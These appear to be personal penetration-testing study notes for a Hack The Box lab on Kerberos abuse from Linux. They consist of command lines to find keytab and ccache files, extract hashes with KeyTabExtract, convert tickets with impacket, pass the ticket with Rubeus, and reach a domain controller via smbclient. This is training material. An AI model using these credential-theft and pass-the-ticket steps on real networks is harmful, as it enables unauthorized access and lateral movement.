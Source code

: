
Extra Info
[[Routing kerberos traffic]]


Check if machine is domain joined
```shell-session
>realm list
```
![[Pasted image 20240916105329.png]]


```shell-session
>ps -ef | grep -i "winbind\|sssd"
```
![[Pasted image 20240916105353.png]]

Finding kerberos tickets through keytab files
```shell-session
>find / -name *keytab* -ls 2>/dev/null
```
```shell-session
>klist -k -t
```
![[Pasted image 20240916110254.png]]
Search cronjobs for kerberos tickets
```shell-session
>crontab -l
```

Search ccache files for kerberos 
```shell-session
>env | grep -i krb5
```
```shell-session
>ls -la /tmp
```

![[Pasted image 20240916110926.png]]

```shell-session
>kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab

>klist
```


###### Extracting Keytab Hashes with KeyTabExtract
```shell-session
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab
```
https://github.com/sosdave/KeyTabExtract


![[Pasted image 20240916115751.png]]
```shell-session
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```
https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py


![[Pasted image 20240916115853.png]]
```cmd-session
C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```


Linux mimikatz
https://github.com/CiscoCXSecurity/linikatz


Once we have a ticket we need to set the env variable to obtain the privilege's
	export KRB5CCNAME=/root/ccache_INLANEFREIGHT.HTB

Once we have obtained ticket permissions we can use it to access resources on the domain controller
	smbclient //dc01/linux01 -k -c "ls" -no-pass